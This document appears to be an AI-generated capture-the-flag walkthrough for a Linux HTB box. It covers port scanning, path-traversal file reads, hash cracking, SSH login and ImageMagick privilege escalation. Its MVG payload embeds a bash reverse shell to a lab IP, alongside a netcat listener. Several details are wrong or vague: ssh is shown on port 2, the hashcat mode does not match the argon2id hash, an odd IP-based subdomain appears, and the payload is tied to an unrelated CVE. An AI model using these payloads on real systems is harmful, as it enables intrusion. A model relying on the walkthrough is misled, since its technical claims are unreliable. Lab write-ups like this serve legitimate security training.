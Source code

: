 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## ⚙️ Reconnaissance

### 🔍 Full Port Scan

```bash
nmap -p- --min-rate=10000 -oN fullscan.nmap 10.10.11.55
```

### 🎯 Service Enumeration

```bash
nmap -sC -sV -p22,80,3000 -oN targeted.nmap 10.10.11.55
```

```
2/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 📁 Web Fuzzing with FFUF

```bash
ffuf -H "Host: titanic.htb" -u http://10.10.11.55/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

---

## 🌐 Web Enumeration

### 🔬 Subdomain and Path Discovery

Found a subdomain like `gitea.10.10.11.55` or a Docker-exposed interface.

### 🔍 Sensitive File Detection

Discovered and accessed Docker configuration:

```bash
curl http://10.10.11.55/config.json
```

---

## 🪓 LFI Exploitation

Identified an LFI vulnerability:

```bash
curl 'http://10.10.11.55/?page=../../../../etc/passwd'
```

Explored log files, user configs, and Docker content via LFI.

---

## 🔐 Credentials and Hash Cracking

### 📦 Found Hashes in a DB Dump

After analyzing LFI-accessed files or Docker config:

```bash
cat db.sql | grep password
```

Extracted hash:

```
$argon2id$v=19$m=65536,t=2,p=1$<salt>$<hash>
```

### 🔓 Cracked Hash with Hashcat

```bash
hashcat -m 3200 -a 0 hash.txt rockyou.txt
```

---

## 👤 User Access

### 🔑 Login via SSH

```bash
ssh user@10.10.11.55
# Password: cracked_password
```

### 🏁 Captured User Flag

```bash
cat ~/user.txt
```

---

## 🧹 Enumeration for Privilege Escalation

### 🔍 Find Writable Files and Logs

```bash
find / -writable -type f 2>/dev/null
```

Discovered a suspicious script:

```
/opt/scripts/idetinty_image.sh
```

Log file analysis suggested periodic image processing.

---

## 💥 Privilege Escalation via ImageMagick (CVE-2024-41817)

### 🛠️ Create Exploit Payload (MVG)

```bash
echo 'push graphic-context
viewbox 0 0 640 480
fill "url(https://example.com"|`/bin/bash -i >& /dev/tcp/10.10.14.9/4444 0>&1`"
pop graphic-context' > shell.mvg
```

### 📤 Serve Exploit

```bash
python3 -m http.server 80
```

### 🖼️ Trigger ImageMagick

Placed `shell.mvg` where `idetinty_image.sh` picks it up.

### 🔁 Reverse Shell Listener

```bash
nc -lvnp 4444
```

---

## 👑 Root Access

### 🏁 Read Root Flag

```bash
cat /root/root.txt
```

---

## 🧷 Summary

|Step|Tool / Technique|Key Finding|
|---|---|---|
|Recon|Nmap, FFUF|Found HTTP services, subdomains|
|LFI|Curl + Parameter Fuzzing|Read `/etc/passwd`, Docker config|
|Credentials|Hashcat|Cracked user hash|
|User Shell|SSH|Gained shell via cracked creds|
|Privesc|ImageMagick (CVE-2024-41817)|RCE via crafted `.mvg` file|

---

Would you like this converted into a downloadable `.md` file or saved into your walkthrough collection?